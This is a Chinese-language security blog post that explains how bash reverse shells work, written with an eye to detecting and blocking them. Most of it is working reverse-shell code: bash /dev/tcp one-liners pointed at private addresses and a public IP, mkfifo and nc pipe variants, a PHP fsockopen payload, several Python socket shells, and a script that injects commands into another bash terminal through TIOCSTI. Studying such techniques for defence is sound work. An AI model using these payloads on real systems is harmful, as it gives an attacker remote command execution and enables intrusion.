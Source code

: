 ```yaml
---
title: 深入挖掘bash反弹shell背后的密码
url: 761.html
id: 761
categories:
  - 学习记录
date: 2019-01-10 16:16:34
tags:
  - ctf
  - php
  - web
  - binary
---
```


## 前言

接触过安全的人都知道怎么反弹shell，而且反弹shell的形式多样，方法众多。如此显而易见的东西，真的有必要写篇文章再来详细来解释一下吗？

那好，先来看几个问题吧：

1. bash运行`exec 0</dev/tcp/tcp/127.0.0.1/2222 1>&0 2>&0` 可以成功反弹shell吗？
2. bash运行`exec bash 0</dev/tcp/tcp/127.0.0.1/2222 1>&0 2>&0` 可以成功反弹shell吗？跟1的区别是什么？
3. bash运行`0</dev/tcp/39.107.104.226/2222 1>&0 2>&0` 可以成功反弹shell吗？为什么？
4. php执行 `system("/bin/bash -i >& /dev/tcp/127.0.0.1/2222 0>&1")` 一定可以反弹shell吗？

如果以上问题无法正确的回答出来，那我觉得了解细节还是非常有必要的，本文主要来分享我在学习和思考反弹shell的检测和拦截过程方法中遇到的问题和这些问题之后背后隐藏的细节。本文核心只关注bash的反弹shell，不关注脚本和第三方程序。

<!-- more -->

## 反弹shell综述

反弹shell从本质上来讲只有一类，那就是**劫持命令的输入和输出**。从劫持的对象不同和劫持方法的不同，大概可以将目前见到的反弹shell可以进行如下分类。
(下图是我本人一个分类，非权威，如果有不妥或者错误，请和我交流指正。)

![](https://pic.wonderkun.cc//uploads/note/202110091114665.png)

这样看起来还是有点抽象，我们依次举一些例子吧：

### 直接劫持子程序的输入输出(体验不好)

```python
#coding:utf-8
import subprocess
import socket
import shlex

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",2020))

while True:
    cmd = s.recv(1024).decode().strip()
    print(cmd)
    cmd = shlex.split(cmd)

    process = subprocess.Popen(cmd, shell=True, stdin=subprocess.PIPE, stdout=subprocess.PIPE,bufsize=0)
    out = process.communicate()
    # print(out)
    s.sendall(out[0])
```
其实重定向，管道符这些功能都是壳程序提供给我们的，这个反弹shell没有用到壳程序，所以没有 |、&、> 供我们用，体验很差。

### 劫持已有壳程序的输入输出

```bash
exec 0</dev/tcp/tcp/127.0.0.1/2222 1>&0 2>&0
```

就这么简单。
当然还有复杂的，但是需要root权限，功能还不太完善，我先给个代码示例吧。

```python
import fcntl, sys, termios
import os
import socket as sk
import threading
import time

def getBashPid():
    r = os.popen("pidof bash")
    pids = r.read().split()
    assert(len(pids) > 0) 
    return pids[0]

# tty_path = sys.argv[1]
pid = getBashPid()
tty_path = "/proc/{}/fd/0".format(pid)
s=sk.socket(sk.AF_INET,sk.SOCK_STREAM)
s.connect(("127.0.0.1",2020))
# os.dup2(s.fileno(),1)
tty_fd = open(tty_path, 'wb')
selfPid = os.getpid()

print("[*] The pid of the process is {}.".format(pid))

while True:
    a = s.recv(1024)
    if a:
    # a = b"\n" + a
        a = a.decode("utf-8")
        a = a.strip("\n") + " > /tmp/log \n"  # https://man7.org/linux/man-pages/man4/tty_ioctl.4.html 
        # 肯定有办法劫持输出，这个样觉得是不太合理的
        print(a)
        print(tty_path)
        # for line in ["ls -al\n"]:
        for byte in a:
        # for i in a:
        # byte = 
            fcntl.ioctl(tty_fd, termios.TIOCSTI,byte)
        
        time.sleep(1)
        with open("/tmp/log",'rb') as fileH:
            content = fileH.read()
            s.sendall(content)
    else:
        time.sleep(0.1)
tty_fd.close()
```

### 自己就是壳程序，劫持自己的输入和输出

其实这个想讲的是自己实现一个壳程序，然后把自己的输入输出都重定向到socket。实现一个简单壳程序其实没那么复杂，大概的思路是接收到一个命令之后，执行如下步骤：

1. fork
2. 在子程序中处理重定向和管道的问题
3. execve传过来的命令

但是想把这个壳程序写的好用，那就很难了。由于代码比较长，我就不贴了。感兴趣的google一下，有个帖子教写壳程序讲的很详细。

### 通过文件描述符绑定的方式劫持

这个估计是最常见的了，就简单说几个例子吧：
1. bash 

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
2. php 

```php
'$sock=fsockopen("127.0.0.1",2020);exec("/bin/sh -i <&3 >&3 2>&3");'
# 不一定是3,如果是webserver的话，一般是4或者更大。 
```
3. python

```python
#coding:utf-8 

import io
import subprocess
import os as so
import socket
import threading

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",2020))
process = subprocess.Popen(['/bin/bash'], shell=True, stdin=s, stdout=s,stderr=s,bufsize=0)
```

### 使用匿名/命令管道劫持

1. bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

nc 39.107.104.226 2333 | /bin/bash | nc 39.107.104.226 2334 
```
2. python

```python
import subprocess
import os as so
import socket
import threading

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",2020))

process = subprocess.Popen(['/bin/bash'], shell=True, stdin=subprocess.PIPE, stdout=subprocess.PIPE,bufsize=0)

# so.dup2(s.fileno(),process.stdout.fileno())

def copy(socket,process):
    while True:
        if process.stdout.readable():
            data = process.stdout.read(1)
        # print(dir(process.stdout))
        # if data:
            socket.send(data)
copyWork = threading.Thread(target=copy,args=(s,process))
copyWork.setDaemon(True)
copyWork.start()

while True:
    data = s.recv(1024)
    process.stdin.write(data)
```

### 使用临时文件/内存文件进行劫持

```bash
mknod /tmp/backpipe p && /bin/sh 0</tmp/backpipe | nc attackerip listenport 1>/tmp/backpipe
```

## 


## 简单的原理了解

```bash
exec /bin/sh 0</dev/tcp/127.0.0.1/2222 1>&0 2>&0
/bin/bash -i >& /dev/tcp/127.0.0.1/2222 0>&1
exec 0</dev/tcp/127.0.0.1/2222 1>&0 2>&0

/bin/bash -i > /dev/tcp/10.10.10.11/443 0<& 2>&1
exec 5<>/dev/tcp/10.10.10.11/443;cat <&5 | while read line; do $line 2>&5 >&5; done
0<&196;exec 196<>/dev/tcp/10.10.10.11/443; sh <&196 >&196 2>&196

0</dev/tcp/39.107.104.226/2222 1>&0 2>&0 # 为啥不行
```

## 参考链接

1. https://xz.aliyun.com/t/2548
2. https://xz.aliyun.com/t/2549

https://brucetg.github.io/2018/05/03/%E5%A4%9A%E7%A7%8D%E5%A7%BF%E5%8A%BF%E5%8F%8D%E5%BC%B9shell/
